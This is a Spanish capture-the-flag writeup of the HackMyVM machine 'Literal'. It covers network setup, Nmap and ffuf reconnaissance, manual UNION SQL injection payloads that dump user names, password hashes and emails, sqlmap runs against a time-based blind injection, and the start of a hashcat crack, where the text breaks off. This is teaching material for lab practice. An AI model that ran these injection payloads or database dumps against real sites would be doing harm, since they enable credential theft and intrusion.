


# Writeup de **Literal** (HackMyVM)

> **Entorno controlado y autorizado.** Todo lo descrito en este documento se ha realizado en un laboratorio de práctica tipo CTF / máquina vulnerable. No debe reproducirse fuera de entornos autorizados.

---

# Índice

1. Objetivo del writeup y enfoque
2. Problema al importar la máquina en VMware
3. Motivo por el que se usa VirtualBox para la víctima y VMware para Kali
4. Configuración de red para que ambas máquinas se vean
   1. Ajuste en VirtualBox
   2. Por qué se elige la tarjeta MediaTek Wi‑Fi 6 MT7921
   3. Ajuste en VMware Workstation / Player
   4. Qué significa usar modo puente
   5. Por qué cambia la IP de Kali
5. Preparación del directorio de trabajo
6. Descubrimiento de la IP de la víctima
   1. Escaneo de descubrimiento con Nmap
   2. Explicación completa de `-n` y `-sn`
   3. Por qué aparecen muchos hosts
   4. Cómo identificar la VM correcta mediante la MAC
   5. Qué es un OUI y por qué importa aquí
7. Escaneo completo de puertos y servicios
   1. Comando usado
   2. Explicación completa de todas las flags de Nmap
   3. Análisis de la respuesta del puerto 22
   4. Análisis de la respuesta del puerto 80
   5. Virtual host descubierto por Nmap
8. Preparación del dominio local con `/etc/hosts`
9. Inspección manual de la web del blog
10. Fuzzing de rutas con `ffuf`
    1. Primer fuzzing de directorios
    2. Explicación completa de las flags de `ffuf`
    3. Segundo fuzzing con extensiones
    4. Interpretación de `login.php`, `register.php`, `logout.php` y `config.php`
11. Registro legítimo en la aplicación y acceso al panel
12. Uso de Burp Suite para estudiar el flujo real de la aplicación
    1. Por qué usar Burp aquí
    2. Intercept con FoxyProxy
    3. Envío a Repeater
    4. Qué vemos en la petición
13. SQL Injection explicada desde cero
    1. Qué es una SQLi
    2. Qué es una UNION SQLi
    3. Condiciones para que funcione
    4. Por qué aquí encaja tan bien
14. Descubrimiento manual del número de columnas
15. Confirmación de la inyección mediante renderizado
16. Extracción manual del nombre de la base de datos
17. Enumeración manual de tablas con `information_schema.tables`
18. Enumeración manual de columnas con `information_schema.columns`
19. Extracción manual de usuarios, hashes y correos
20. Interpretación de los resultados y descubrimiento del subdominio
21. Nuevo virtual host: `forumtesting.literal.hmv`
22. Repetición de la explotación con `sqlmap` sobre el blog
    1. Exportación de la petición desde Burp
    2. Importancia del marcador `*`
    3. Explicación de `-r`, `--batch`, `--dbs`
    4. Qué detecta exactamente sqlmap
23. Segunda SQLi en el foro: `category_id`
24. SQLi **time-based blind** explicada muy bien
    1. Qué significa blind
    2. Qué significa time-based
    3. Por qué es difícil explotarla a mano
    4. Qué hace `SLEEP(5)`
    5. Cómo extrae datos sqlmap sin verlos en pantalla
25. Enumeración de bases de datos, tablas y contenido del foro
26. Identificación del hash de `carlos`
27. Crackeo del hash con Hashcat
    1. Identificación del algoritmo
    2. Consulta de example hashes
    3. Explicación completa de `hashcat -a 0 -m 1700`
28. Acceso inicial por SSH
29. Enumeración local y hallazgo crítico con `sudo -l`
30. Análisis detallado del script `update_project_status.py`
    1. Qué hace el script
    2. Por qué `os.system()` es peligroso
    3. Qué papel juega el cliente `mysql`
    4. Diferencia entre SQL Injection y Command Injection
31. Escalada de privilegios a root
    1. Payload usado
    2. Qué significa `\! /bin/bash` dentro de `mysql`
    3. Por qué la shell sale como root
32. Relación con GTFOBins
33. Obtención de `user.txt` y `root.txt`
34. Resumen técnico de la cadena completa
35. Lecciones importantes que deja esta máquina

---

# 1. Objetivo del writeup y enfoque

Aquí no se busca hacer un resumen corto ni una simple lista de comandos. El objetivo es dejar un documento que puedas releer dentro de semanas o meses y seguir entendiendo **por qué** se hizo cada cosa.

Esta máquina toca varios conceptos que, si es la primera vez que los ves, pueden resultar confusos:

- por qué una máquina puede fallar al importar en un hipervisor y funcionar en otro,
- cómo hacer que dos VMs de hipervisores distintos se vean por red,
- qué significa realmente poner una VM en modo puente,
- cómo identificar la IP correcta de una víctima cuando estás escaneando una red real y no una red privada del hipervisor,
- qué es un OUI y por qué una MAC puede delatar que una VM corre en VirtualBox,
- cómo interpretar correctamente la salida de Nmap,
- qué es un virtual host y por qué un servicio web puede no funcionar bien si accedes por IP,
- cómo usar `ffuf` para descubrir contenido oculto,
- cómo pensar una SQL Injection manual, no solo lanzarla,
- qué hace `information_schema`,
- cómo automatiza `sqlmap` lo que tú haces a mano,
- por qué una inyección **time-based blind** es mucho más incómoda de explotar manualmente,
- cómo identificar un hash,
- cómo usar Hashcat con el modo correcto,
- cómo razonar un patrón de contraseñas cuando no hay una filtración directa,
- y, por último, cómo un script Python aparentemente “útil” puede convertirse en una escalada a root cuando mezcla `sudo`, `os.system()` y `mysql`.

La idea es que este documento te sirva como writeup, pero también como material de estudio.

---

# 2. Problema al importar la máquina en VMware

Al intentar importar la máquina **Literal** en VMware apareció un error con mensajes como:

- `Unsupported element 'Caption'`
- `Unsupported element 'Description'`
- `Unsupported element 'InstanceId'`
- `Unsupported element 'ResourceType'`
- `Missing child element 'InstanceID'`
- `Missing child element 'ResourceType'`


## ¿Qué significa realmente este error?

Cuando una máquina virtual se distribuye en formato **OVA/OVF**, no se entrega solo el disco duro virtual. También se entrega un descriptor con metadatos que definen cosas como:

- cantidad de memoria,
- número de CPUs,
- tipo de controladoras,
- NICs virtuales,
- y otros recursos de hardware virtual.

Ese descriptor suele ir en XML y sigue el estándar OVF. El problema es que **no todos los hipervisores interpretan igual todos los elementos**. A veces una exportación generada pensando en VirtualBox puede contener elementos que VMware no espera o maneja de otra manera.

La consecuencia práctica aquí es simple:

- la máquina no está “rota” como tal,
- pero el descriptor no está siendo aceptado por VMware,
- así que la importación falla.

## Conclusión

No es un error de configuración tuyo ni un fallo de la máquina Kali. Es un problema de compatibilidad entre el formato exportado y VMware.

---

# 3. Motivo por el que se usa VirtualBox para la víctima y VMware para Kali

La decisión fue:

- **Kali** sigue corriendo en **VMware**
- **Literal** se levanta en **VirtualBox**

Eso tiene sentido por varios motivos:

1. la víctima no se deja importar bien en VMware,
2. pero sí se puede abrir en VirtualBox,
3. Kali ya estaba preparada y lista en VMware,
4. y no era necesario mover toda la máquina atacante de hipervisor.

El problema real ya no es “qué hipervisor uso”, sino:

> ¿Cómo hago para que una VM en VMware y una VM en VirtualBox se vean entre sí?

La respuesta es la configuración de red.

---

# 4. Configuración de red para que ambas máquinas se vean

## 4.1. Ajuste en VirtualBox

En VirtualBox se hizo lo siguiente:

- importar la máquina,
- seleccionarla,
- ir a **Configuración**,
- entrar en **Red**,
- en **Adaptador 1** escoger **Conectado a: Adaptador puente**,
- y en **Nombre** seleccionar la tarjeta física real.

En tu caso, la tarjeta elegida fue:

**MediaTek Wi‑Fi 6 MT7921 Wireless LAN Card**


## 4.2. Por qué se elige esa tarjeta y no otra

Aquí conviene entender una idea que al principio suele generar confusión.

Tu host Windows puede tener varias interfaces de red:

- la Wi‑Fi física,
- una Ethernet física,
- adaptadores virtuales de VMware,
- adaptadores virtuales de VirtualBox,
- interfaces de VPN,
- interfaces deshabilitadas o no conectadas.

Cuando eliges “Adaptador puente”, VirtualBox necesita saber **sobre qué interfaz física real va a puentear** la máquina virtual.

La interfaz correcta es la que **realmente está conectando el host a la red**. En este caso, esa es:

**MediaTek Wi‑Fi 6 MT7921 Wireless LAN Card**

Si eligieras otra interfaz distinta, por ejemplo una desconectada o una virtual, la VM podría quedar:

- sin conectividad útil,
- en una red que no te interesa,
- o simplemente sin ver a la Kali.

La razón, entonces, es esta:

> queremos que la víctima aparezca en la misma red física real a la que está conectado el host Windows.

---

## 4.3. Ajuste equivalente en VMware para Kali

En VMware se hizo un proceso paralelo.

Primero, dentro del **Editor de red virtual**:

- **Editar**
- **Editor de red virtual**
- en la información de **VMnet**
- seleccionar **En puente**
- y elegir exactamente la **misma tarjeta física** que en VirtualBox.


Después, en la propia configuración de Kali dentro de VMware:

- click derecho en la máquina,
- **Configuración**
- **Adaptador de red**
- **Conexión de red**
- **Conexión en puente**


## 4.4. Qué significa usar modo puente

Este punto es muy importante.

### NAT

Cuando una VM está en NAT:

- no se comporta como un equipo independiente de la red real,
- vive detrás del host,
- usa una red privada creada por el hipervisor,
- y sale a Internet “a través” del host.

Eso está bien para navegar, actualizar paquetes o usar la VM sin complicarte, pero no siempre sirve si quieres que varias VMs de hipervisores distintos se vean directamente.

### Bridge

Cuando una VM está en **bridge**:

- se “engancha” directamente a la red física,
- aparece como si fuese un equipo más de la LAN,
- pide su propia IP al router/DHCP de la red,
- y puede hablar directamente con otros equipos de esa red.

En otras palabras:

- con NAT, la VM está escondida detrás del host,
- con bridge, la VM se comporta como un dispositivo independiente dentro de la red física real.

Eso es exactamente lo que necesitábamos.

## 4.5. Por qué cambia la IP de Kali

Al pasar Kali de NAT a bridge, VMware corta temporalmente la conectividad y vuelve a enlazar la interfaz virtual al nuevo modo.

Por eso se pierde la red un momento.

Después, la VM hace lo mismo que haría cualquier dispositivo nuevo en una red doméstica: pedir una IP por DHCP al router.

Al ejecutar:

```bash
ip a
```

se obtiene una IP como:

```bash
inet 192.168.1.42/24
```


Eso significa que Kali ya está en la red real `192.168.1.0/24`.

---

# 5. Preparación del directorio de trabajo

Se crea un directorio específico para esta máquina:

```bash
cd ~/Desktop
cd HackMyVM
mkdir Literal
cd Literal
```

Esto puede parecer un detalle menor, pero es buena costumbre. A lo largo de una máquina terminas acumulando:

- outputs de Nmap,
- peticiones guardadas desde Burp,
- archivos de sqlmap,
- hashes,
- notas,
- capturas,
- scripts auxiliares.

Tener una carpeta por máquina te permite no mezclar material y mantener una trazabilidad clara.

---

# 6. Descubrimiento de la IP de la víctima

Con ambas máquinas ya en bridge y en la misma red real, toca averiguar qué IP ha recibido la víctima.

El comando usado fue:

```bash
sudo nmap -n -sn 192.168.1.42/24
```

## 6.1. Escaneo de descubrimiento con Nmap

La idea de este comando no es escanear puertos todavía, sino responder a una pregunta más básica:

> ¿Qué hosts están vivos en esta red?

## 6.2. Explicación completa de `-n` y `-sn`

### `-n`

Le dice a Nmap que **no haga resolución DNS**.

Esto significa que si encuentra una IP viva, no intentará traducirla a nombre de host mediante DNS. Ventajas:

- va más rápido,
- hace menos ruido,
- y la salida queda más limpia.

### `-sn`

Significa **host discovery only** o “ping scan”.

Nmap en este modo **no hace escaneo de puertos**. Solo intenta detectar qué equipos de la red están encendidos o responden.

### `192.168.1.42/24`

Aquí el `/24` importa mucho.

Aunque la dirección base que pongas sea la de Kali, el `/24` le está diciendo a Nmap que escanee toda la subred `192.168.1.0/24`.

Eso incluye todas las IPs del segmento.

## 6.3. Resultado observado

Se obtiene una salida como:

```text
Nmap scan report for 192.168.1.1
Host is up ...
MAC Address: DC:08:DA:84:39:30 (Unknown)

Nmap scan report for 192.168.1.33
Host is up ...
MAC Address: 48:E7:DA:42:B4:AD (AzureWave Technology)

Nmap scan report for 192.168.1.34
Host is up ...
MAC Address: 6A:88:E4:FB:4A:51 (Unknown)

Nmap scan report for 192.168.1.38
Host is up ...
MAC Address: 08:00:27:4C:64:E1 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap scan report for 192.168.1.90
Host is up ...
MAC Address: 44:3B:14:F0:E3:A8 (Unknown)

Nmap scan report for 192.168.1.200
Host is up ...
MAC Address: A4:43:8C:A3:71:3F (Arris Group)

Nmap scan report for 192.168.1.42
Host is up.
```

## 6.4. Por qué aparecen muchos hosts

Esto es completamente normal y, de hecho, es justo lo esperable al usar bridge.

Antes, cuando trabajas en una red privada del hipervisor, normalmente ves muy pocos equipos:

- tu atacante,
- la víctima,
- quizá una gateway virtual.

Pero aquí ya **no** estás en una red privada del hipervisor. Estás en tu red física real.

Eso hace que al escanear aparezcan todos los dispositivos conectados a esa LAN, por ejemplo:

- el router,
- tu propio host,
- otros PCs,
- móviles,
- Smart TV,
- IoT,
- repetidores,
- y las VMs.

No es un fallo. Es una consecuencia directa del bridge.

## 6.5. Cómo identificar la VM correcta mediante la MAC

Sabemos que la víctima está corriendo en **VirtualBox**.

Entonces, entre todos los hosts encontrados, el candidato más claro será aquel cuya MAC esté identificada por Nmap como:

```text
Oracle VirtualBox virtual NIC
```

La línea clave es esta:

```text
192.168.1.38
MAC Address: 08:00:27:4C:64:E1 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
```

## 6.6. Qué es un OUI y por qué importa aquí

**OUI** significa **Organizationally Unique Identifier**.

Son los primeros 3 bytes de una dirección MAC y sirven para identificar al fabricante o bloque asignado.

Ejemplos útiles:

- `08:00:27` → VirtualBox
- `00:0C:29` → VMware
- `48:E7:DA` → AzureWave
- `A4:43:8C` → Arris

Por eso Nmap puede decirte no solo la MAC, sino el fabricante asociado.

### Conclusión del descubrimiento

La víctima queda identificada como:

```text
192.168.1.38
```

porque su MAC pertenece a VirtualBox y sabemos que la VM objetivo está corriendo ahí.

---

# 7. Escaneo completo de puertos y servicios

Con la IP ya identificada, toca enumerar puertos y servicios:

```bash
sudo nmap -p- --open -sCV -Pn -T5 -vvv -oN fullscan 192.168.1.38
```

## 7.1. Comando usado y explicación completa de todas las flags

### `-p-`

Escanea todos los puertos TCP del 1 al 65535.

Si no lo pones, Nmap escanea solo un subconjunto de puertos comunes. Aquí no queremos dejar ninguno fuera.

### `--open`

Hace que la salida muestre solo los puertos abiertos. Así reduces mucho ruido.

### `-sC`

Lanza los scripts NSE por defecto. Son scripts de reconocimiento que ayudan a obtener información extra, como títulos HTTP, banners, etc.

### `-sV`

Intenta identificar versiones de servicios.

### `-sCV`

Es la combinación habitual de ambas.

### `-Pn`

Le dice a Nmap que no haga host discovery previo y trate al host como si estuviera activo desde el principio.

Útil cuando ya sabes que el host está vivo.

### `-T5`

Temporización muy agresiva. En laboratorio suele ser aceptable. En entornos reales no siempre conviene.

### `-vvv`

Máxima verbosidad razonable. Muestra mucho detalle durante el escaneo.

### `-oN fullscan`

Guarda la salida en formato normal en un archivo llamado `fullscan`.

## 7.2. Resultado principal

```text
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2
80/tcp open  http    Apache httpd 2.4.41
```

## 7.3. Análisis de la respuesta del puerto 22

El puerto 22 muestra:

```text
OpenSSH 8.2p1 Ubuntu 4ubuntu0.2
```

Eso nos dice:

- servicio: SSH
- implementación: OpenSSH
- versión: 8.2p1
- contexto: Ubuntu

SSH es un protocolo de acceso remoto seguro. Suele permitir:

- usuario/contraseña,
- autenticación por clave,
- o ambos.

No tenemos credenciales aún, pero sabemos que más adelante este servicio puede ser útil.

## 7.4. Análisis de la respuesta del puerto 80

El puerto 80 muestra:

```text
Apache httpd 2.4.41
```

Eso indica un servidor web Apache bastante típico en Ubuntu 20.04, lo que refuerza la idea de que estamos frente a un Linux Ubuntu.

## 7.5. Virtual host descubierto por Nmap

Hay una línea clave en la salida:

```text
http-title: Did not follow redirect to http://blog.literal.hmv
```

Eso significa que al interactuar con la web, el servidor respondió con una redirección hacia:

```text
http://blog.literal.hmv
```

Esta pista es muy importante porque nos dice que la aplicación **espera ser accedida por ese dominio**.

---

# 8. Preparación del dominio local con `/etc/hosts`

Para que nuestro sistema resuelva ese nombre correctamente, añadimos una entrada local:

```bash
sudo nano /etc/hosts
```

Y añadimos:

```text
192.168.1.38    blog.literal.hmv
```

## ¿Qué hace esto?

`/etc/hosts` es un archivo local de resolución de nombres. Le estás diciendo a Kali:

> cuando te pidan `blog.literal.hmv`, no preguntes a DNS; usa directamente la IP `192.168.1.38`.

Esto es necesario porque el dominio no existe en un DNS público real, pero la aplicación sí lo usa internamente.

---

# 9. Inspección manual de la web del blog

Al visitar:

```text
http://192.168.1.38:80
```

la web redirige a:

```text
http://blog.literal.hmv/
```

La página es un blog.


En este punto ya sabemos dos cosas:

- la web es el vector principal obvio,
- y el servicio SSH seguramente quedará para más adelante, cuando tengamos credenciales.

---

# 10. Fuzzing de rutas con `ffuf`

## 10.1. Primer fuzzing y por qué se hace

Se lanzó:

```bash
ffuf -u 'http://blog.literal.hmv/FUZZ' -c -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 100
```

La idea es descubrir rutas y directorios ocultos o no enlazados visiblemente.

## 10.2. Explicación completa de las flags de `ffuf`

### `-u`

Define la URL objetivo. `FUZZ` marca la posición donde ffuf sustituirá palabras de la wordlist.

### `-c`

Colorea la salida para hacerla más legible.

### `-w`

Indica la wordlist a usar.

### `-t 100`

Usa 100 hilos concurrentes. Es un fuzzing agresivo, adecuado en laboratorio, no en producción real.

## 10.3. Resultado del primer fuzzing

```text
fonts           [Status: 301]
images          [Status: 301]
server-status   [Status: 403]
```

### Interpretación

- `fonts` e `images`: existen como directorios.
- `server-status`: existe, pero Apache no nos deja acceder (403).

No es un resultado espectacular, así que ampliamos el enfoque.

## 10.4. Segundo fuzzing con extensiones

```bash
ffuf -u 'http://blog.literal.hmv/FUZZ' -c -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 100 -e .php,.txt,.js
```

### ¿Qué añade `-e`?

Le dice a ffuf que pruebe extensiones adicionales, por ejemplo:

- `login.php`
- `register.php`
- `config.php`
- etc.

## 10.5. Resultado del segundo fuzzing

```text
login.php       [Status: 200]
register.php    [Status: 200]
logout.php      [Status: 302]
config.php      [Status: 200]
```

### Interpretación de cada hallazgo

- `login.php`: página de login funcional.
- `register.php`: página de registro funcional.
- `logout.php`: ruta de cierre de sesión, de ahí la redirección.
- `config.php`: responde 200, pero aparentemente vacío. Eso no significa que entregue código fuente; solo significa que el recurso existe y la interpretación PHP devuelve una respuesta vacía o sin contenido visible.

---

# 11. Registro legítimo en la aplicación y acceso al panel

Primero se revisa `login.php`, pero no parece explotar nada útil directamente.

En cambio, sí existe un panel de registro legítimo en:

```text
http://blog.literal.hmv/register.php
```


Se crea un usuario, por ejemplo:

- username: `santi`
- password: `santi`
- confirm password: `santi`
- email: `santi@santi.com`

Tras registrarnos y hacer login, la aplicación redirige a:

```text
http://blog.literal.hmv/dashboard.php
```

y muestra un panel con un mensaje de bienvenida y botones internos.



Uno de los botones lleva a:

```text
http://blog.literal.hmv/next_projects_to_do.php
```

Ahí aparece una tabla de proyectos con columnas como:

- ID
- Name
- Creation Date
- When is it done?
- Status

Esto ya huele a funcionalidad que probablemente consulta una base de datos y luego renderiza una tabla. Es un escenario clásico para SQLi.

---

# 12. Uso de Burp Suite para estudiar el flujo real de la aplicación

## 12.1. Por qué usar Burp aquí

Podrías hacer muchas pruebas desde el navegador, pero Burp te permite ver la petición exacta que el navegador envía, con:

- método,
- ruta,
- body,
- cookies,
- headers,
- y respuestas completas.

Eso es vital cuando sospechas de inyecciones.

## 12.2. Intercept con FoxyProxy

Se activa el proxy del navegador mediante FoxyProxy y en Burp se pone **Intercept On**.

Luego, en la funcionalidad de “query by status”, se busca cualquier texto, por ejemplo:

```text
test
```

La petición queda capturada.

## 12.3. Envío a Repeater

Se envía la petición a **Repeater** para poder modificarla y reenviarla cómodamente cuantas veces quieras.

## 12.4. Qué vemos en la petición

La aplicación hace un `POST` a:

```text
/next_projects_to_do.php
```

Y en el body aparece un parámetro del estilo:

```text
sentence-query=test
```

También vemos la cookie de sesión:

```text
Cookie: PHPSESSID=...
```

Esto nos dice que la petición depende de nuestra sesión autenticada, y eso es importante porque la funcionalidad vulnerable probablemente solo sea accesible logueado.

---

# 13. SQL Injection explicada desde cero

## 13.1. Qué es una SQLi

Una SQL Injection ocurre cuando una aplicación mete input del usuario dentro de una consulta SQL sin tratarlo de forma segura.

Ejemplo conceptual inseguro:

```sql
SELECT * FROM users WHERE username = 'INPUT';
```

Si controlas `INPUT` y el desarrollador concatena texto directamente, puedes cerrar comillas y añadir tu propia lógica SQL.

## 13.2. Qué es una UNION SQLi

`UNION` en SQL sirve para unir el resultado de dos consultas.

Ejemplo:

```sql
SELECT col1 FROM tabla1
UNION
SELECT col2 FROM tabla2;
```

Si la consulta original devuelve una fila y tú consigues inyectar otra consulta con `UNION`, la aplicación puede terminar mostrándote datos internos.

## 13.3. Condiciones para que funcione

Para que una UNION SQLi funcione:

1. ambas consultas deben devolver el mismo número de columnas,
2. y esas columnas deben tener tipos compatibles o tolerables.

## 13.4. Por qué aquí encaja tan bien

Aquí tenemos:

- un buscador,
- una tabla HTML de resultados,
- y un parámetro de búsqueda que termina afectando a una consulta.

Eso es el escenario perfecto para probar una SQLi visible.

---

# 14. Descubrimiento manual del número de columnas

Se prueban payloads crecientes:

```text
sentence-query=' union select 1--+-
sentence-query=' union select 1,2--+-
sentence-query=' union select 1,2,3--+-
sentence-query=' union select 1,2,3,4--+-
sentence-query=' union select 1,2,3,4,5--+-
```

La idea es simple:

- meter un número en cada columna,
- y ver cuándo la aplicación lo acepta y lo renderiza.

Mientras el número de columnas no coincide con la consulta original, no aparece algo útil.

Pero al llegar a **5 columnas**, la aplicación muestra la fila inyectada.

---

# 15. Confirmación de la inyección mediante renderizado

En la respuesta de Burp, especialmente en modo **Render**, se ve la tabla con:

- 1
- 2
- 3
- 4
- 5



## ¿Qué significa exactamente esto?

Significa que:

1. la inyección funciona,
2. la aplicación está ejecutando la consulta SQL modificada,
3. y los resultados de nuestra consulta se imprimen en la tabla HTML.

Eso confirma no solo la SQLi, sino que además es una **UNION-based SQLi visible**, que es la más cómoda para explotación manual.

---

# 16. Extracción manual del nombre de la base de datos

Una vez confirmado que son 5 columnas, probamos:

```text
' union select 1,2,3,database(),5--+-
```

## ¿Qué hace `database()`?

Es una función de MySQL que devuelve el nombre de la base de datos actualmente seleccionada.

## Resultado

En la columna 4 aparece:

```text
blog
```

Por tanto, la base de datos activa se llama:

```text
blog
```

---

# 17. Enumeración manual de tablas con `information_schema.tables`

Siguiente payload:

```text
' union select 1,2,3,(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema='blog'),5--+-
```

## Despiece de la consulta

### `information_schema`

Es una base de datos del sistema que describe la estructura del servidor MySQL.

### `information_schema.tables`

Es una tabla del sistema que contiene información sobre todas las tablas.

### `WHERE table_schema='blog'`

Filtra solo las tablas pertenecientes a la base de datos `blog`.

### `group_concat(table_name)`

Concatena múltiples resultados en una sola cadena separada por comas.

## Resultado

```text
projects,users
```

Ahora sabemos que la BD `blog` contiene, como mínimo, estas tablas:

- `projects`
- `users`

---

# 18. Enumeración manual de columnas con `information_schema.columns`

Nos interesa especialmente `users`, así que enumeramos sus columnas:

```text
' union select 1,2,3,(SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema='blog' AND table_name='users'),5--+-
```

## Resultado

```text
usercreatedate,useremail,userid,username,userpassword
```

Ya sabemos qué campos tiene la tabla y cuáles son útiles ofensivamente:

- `username`
- `userpassword`
- `useremail`

---

# 19. Extracción manual de usuarios, hashes y correos

Payload:

```text
' union select 1,2,3,(SELECT group_concat(username,'---',userpassword,'---',useremail) FROM users),5--+-
```

## ¿Por qué usar `---` como separador?

Porque si no, todo aparecería pegado y sería muy difícil distinguir:

- el usuario,
- el hash,
- el correo.

Usando un separador manual, cada registro queda mucho más legible.

## Resultado observado

Se obtienen múltiples registros, por ejemplo:

- `test---<hash>---test@blog.literal.htb`
- `admin---<hash>---admin@blog.literal.htb`
- `carlos---<hash>---carlos@blog.literal.htb`
- ...
- `walter---<hash>---walter@forumtesting.literal.hmv`

## Interpretación

Técnicamente hemos conseguido:

- usuarios,
- hashes,
- y correos.

Pero lo más interesante aquí no son los hashes del blog, sino un dato contextual:

```text
forumtesting.literal.hmv
```

Ese correo nos revela la existencia de otro subdominio coherente con el dominio base.

---

# 20. Interpretación de los resultados y descubrimiento del subdominio

No todos los correos importan. Algunos parecen ruido o dominios falsos. Pero uno destaca muchísimo:

```text
walter@forumtesting.literal.hmv
```

¿Por qué?

Porque ya sabemos que existe:

```text
blog.literal.hmv
```

y esto sugiere claramente:

```text
forumtesting.literal.hmv
```

Es decir, otro virtual host dentro del mismo dominio base `literal.hmv`.

---

# 21. Nuevo virtual host: `forumtesting.literal.hmv`

Añadimos otra entrada en `/etc/hosts`:

```text
192.168.1.38    forumtesting.literal.hmv
```

Y navegamos a:

```text
http://forumtesting.literal.hmv
```

La web resuelve y redirige a:

```text
http://forumtesting.literal.hmv/category.php
```

Si la captura está disponible en la carpeta, esta corresponde a esa nueva superficie web:


Esto confirma un pivote muy típico en máquinas web: una primera aplicación sirve para descubrir una segunda.

---

# 22. Repetición de la explotación con `sqlmap` sobre el blog

## 22.1. Exportación de la petición desde Burp

En Repeater se guarda la petición completa a un archivo, por ejemplo:

```text
req.txt
```

## 22.2. Importancia del marcador `*`

Se sustituye el valor vulnerable por un asterisco:

```text
sentence-query=*
```

Esto es importante porque sqlmap entiende el `*` como un **marcador de inyección personalizado**. Así centra sus pruebas ahí y no en otros posibles parámetros.

## 22.3. Comando usado

```bash
sqlmap -r req.txt --batch --dbs
```

### Explicación de las flags

#### `-r req.txt`

Le dice a sqlmap que use una petición HTTP cruda guardada en un archivo.

#### `--batch`

Responde automáticamente a las preguntas interactivas con valores por defecto razonables.

#### `--dbs`

Le pide enumerar las bases de datos disponibles.

## 22.4. Qué detecta exactamente sqlmap

Sqlmap informa de una inyección tipo **UNION query**, lo que encaja exactamente con lo que ya habíamos comprobado manualmente.

Enumera bases de datos como:

- `blog`
- `information_schema`
- `mysql`
- `performance_schema`

### Qué es cada una

- `blog`: la aplicación real.
- `information_schema`: metadatos del sistema.
- `mysql`: tablas internas del motor.
- `performance_schema`: métricas internas.

Sqlmap está automatizando lo que tú ya hiciste a mano, no “descubriendo magia nueva”.

---

# 23. Segunda SQLi en el foro: `category_id`

En el foro se observa una URL así:

```text
http://forumtesting.literal.hmv/category.php?category_id=2
```

Un parámetro numérico tipo `id` es un candidato clásico a SQLi.

Se captura con Burp, se guarda como `req2.txt`, y se lanza:

```bash
sqlmap -r req2.txt --batch --dbs
```

---

# 24. SQLi **time-based blind** explicada muy bien

Aquí es donde sqlmap detecta que la inyección no es visible como antes, sino:

```text
Type: time-based blind
```

## 24.1. Qué significa blind

“Blind” significa que la aplicación:

- no muestra errores SQL,
- no muestra directamente el resultado de tu consulta inyectada.

Así que no puedes hacer un `UNION SELECT database()` y verla impresa en la página.

## 24.2. Qué significa time-based

Significa que usas el **tiempo de respuesta** como canal de comunicación.

Idea conceptual:

- si una condición es verdadera → haz `SLEEP(5)`
- si es falsa → responde normal

Entonces, observando el retraso, deduces la verdad o falsedad de la condición.

## 24.3. Por qué es difícil explotarla a mano

Porque tú no ves el dato. Solo ves el tiempo.

Eso obliga a hacer preguntas binarias:

- ¿la longitud del nombre de la BD es 5?
- ¿el primer carácter es `a`?
- ¿es `b`?
- ¿es `c`?

Y medir tiempos una y otra vez.

Se puede hacer, pero es muy tedioso.

## 24.4. Qué hace `SLEEP(5)`

Un payload detectado por sqlmap es del estilo:

```text
category_id=2 AND (SELECT 6700 FROM (SELECT(SLEEP(5)))GuUL)
```

La parte importante es:

```sql
SELECT(SLEEP(5))
```

Si eso se ejecuta, el servidor tarda 5 segundos en responder.

## 24.5. Cómo extrae datos sqlmap sin verlos en pantalla

Sqlmap hace preguntas del tipo:

- si esta condición es cierta, duerme 5 segundos;
- si no, responde rápido.

Luego mide.

### Ejemplo conceptual

Para adivinar el nombre de una base de datos:

1. averigua la longitud,
2. luego carácter por carácter,
3. probando muchos valores posibles.

Por eso una time-based blind puede tardar mucho más que una UNION visible.

---

# 25. Enumeración de bases de datos, tablas y contenido del foro

Sqlmap consigue extraer:

```text
forumtesting
information_schema
performance_schema
```

La importante es:

```text
forumtesting
```

Luego se listan tablas con:

```bash
sqlmap -r req2.txt --batch -D forumtesting --tables
```

### Explicación de las flags

- `-D forumtesting`: selecciona esa base de datos.
- `--tables`: enumera sus tablas.

Resultado:

- `forum_category`
- `forum_owner`
- `forum_posts`
- `forum_topics`
- `forum_users`

La tabla más prometedora por nombre es:

```text
forum_owner
```

Así que se dumpea con:

```bash
sqlmap -r req2.txt --batch -D forumtesting -T forum_owner --dump
```

### Explicación de las flags nuevas

- `-T forum_owner`: selecciona esa tabla.
- `--dump`: extrae sus registros.

Resultado: un registro con usuario `carlos`, correo y un hash largo.

---

# 26. Identificación del hash de `carlos`

El hash recuperado es muy largo y en hexadecimal.

Se puede usar una herramienta de identificación de hashes para estimar qué algoritmo podría ser. Estas herramientas no descifran mágicamente el hash; comparan:

- longitud,
- formato,
- alfabeto,
- patrones típicos.

En este caso la identificación apunta a:

```text
SHA512
```

Eso encaja con el aspecto del hash y con los ejemplos de referencia.

---

# 27. Crackeo del hash con Hashcat

## 27.1. Identificación del algoritmo y consulta de example hashes

En la referencia de Hashcat, el modo correspondiente a SHA2-512 es:

```text
1700
```

## 27.2. Comando usado

Se guarda el hash en un archivo llamado `hash` y luego:

```bash
hashcat -a 0 -m 1700 hash /usr/share/wordlists/rockyou.txt
```

### Explicación completa de las flags

#### `-a 0`

Modo de ataque de diccionario directo.

